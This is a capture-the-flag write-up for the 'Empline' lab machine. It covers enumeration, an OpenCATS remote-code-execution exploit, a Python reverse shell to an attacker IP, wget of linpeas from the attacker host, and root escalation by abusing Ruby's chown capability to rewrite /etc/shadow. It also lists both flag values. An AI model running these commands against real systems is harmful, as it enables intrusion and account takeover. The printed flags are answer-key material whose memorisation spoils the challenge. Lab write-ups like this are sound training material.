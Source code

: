 # Empline - Medium

```shell
sudo vim /etc/hosts
#map ip to empline.thm

nmap -T4 -p- -A -Pn -v empline.thm

gobuster dir -u http://empline.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

sudo vim /etc/hosts
#add job.empline.thm

searchsploit opencats

#get exploit
./opencats-rce.sh http://job.empline.thm/

#we get root shell

id
#www-data

#setup a listener
nc -nvlp 4444

#python reverse-shell one-liner
export RHOST="10.14.31.212";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

#we get reverse-shell
cd /tmp

python3 -c 'import pty;pty.spawn("/bin/bash")'

#get linpeas.sh from attacker server
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#ruby has chown capability set

which ruby

cat /etc/passwd
#www-data uid is 33

#exploit ruby chown
#change ownership of /etc/shadow to www-data
/usr/local/bin/ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/etc/shadow")'

ls -la /etc/shadow

cat /etc/shadow
#we have read-write privilege now

#in attacker machine
#generate hash for 'newpassword'
mkpasswd -m sha-512 newpassword

#copy hash
vim /etc/shadow
#replace root hash with new hash

su root
#we can use 'newpassword'

#root shell
cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29
  * 3306 - mysql - MySQL 5.5.5-10.1.48-MariaDB

* We can start off by enumerating the webpage on port 80.

* Now, the page contains multiple sections, and one of the sections 'Employment' leads to the subdomain <job.empline.thm>

* So, we can add this subdomain to our /etc/hosts file.

* Now, this subdomain leads to a login page for ```opencats```; this is version 0.9.4

* We can check for directories using ```gobuster``` here as well.

* Now, this version of ```opencats``` has a RCE exploit available.

* When we run the script, we get a reverse shell as 'www-data'.

* We cannot change directories in this shell, so we can setup a listener, and use another Python reverse-shell one-liner to migrate.

* Now, we can use ```linpeas.sh``` for basic enumeration.

* ```linpeas``` shows that there are capabilities setup for ```ruby``` which can be exploited:

```/usr/local/bin/ruby = cap_chown+ep```

* Now, Googling for this shows that we can change ownership of files by exploiting this capability.

* We can change ownership of the ```/etc/shadow``` file, and modify the root user's password with our newly-generated root password.

* Then, we can switch to the new user and read both flags.

* Alternatively, we can exploit 'chown' capability to read and write to ```/etc/passwd```, and add a new root user.

```markdown
1. User.txt - 91cb89c70aa2e5ce0e0116dab099078e

2. Root.txt - 74fea7cd0556e9c6f22e6f54bc68f5d5
```
